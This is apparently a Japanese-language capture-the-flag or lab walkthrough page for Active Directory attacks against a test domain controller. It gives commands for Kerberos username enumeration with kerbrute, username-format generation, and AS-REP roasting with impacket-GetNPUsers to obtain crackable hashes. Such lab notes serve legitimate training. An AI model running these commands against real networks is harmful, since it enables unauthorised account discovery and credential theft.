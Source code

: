 # kerbrute

- コマンド:
  ```bash
  ./kerbrute_linux_amd64 -d egotisticalbank --dc 10.10.10.175 userenum /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
  ```

# Kerberos事前認証無効アカウントの調査

![Kerberos Pre-Auth](https://github.com/user-attachments/assets/241b929c-cd39-4f32-95e0-638316ee5d52)

## Windows用のusernameファイルの作成
- 事前にkerbruteやenum4linux等でDCの名前のフォーマットを調べ、そのフォーマットに対応するようにファイルを作成します。

  - ファーストネーム・ラストネーム形式
    ```bash
    /home/kali/github/username-anarchy/username-anarchy --input-file ./users.txt --select-format first.last
    ```
    ![First.Last Format](https://github.com/user-attachments/assets/9ae9aadf-5c86-48fa-a248-013025577acc)

  - ファーストネームイニシャル・ラストネーム形式
    ```bash
    /home/kali/github/username-anarchy/username-anarchy --input-file ./users_Initial_lastname.txt --select-format flast
    ```
    ![FLast Format](https://github.com/user-attachments/assets/9eec67cc-3dc6-4a01-b2da-56d41336eee2)

  - 注意: 画面出力しかされないので、これらを含むテキストファイルを改めて作成します。

## ASREProast攻撃
- コマンド:
  ```bash
  impacket-GetNPUsers -usersfile users_Initial_lastname.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip 10.10.10.175 'EGOTISTICAL-BANK.LOCAL/'
  ```
  ![ASREProast Attack](https://github.com/user-attachments/assets/95fd7aa4-3a2b-435c-aca6-1893f741c00a)
```
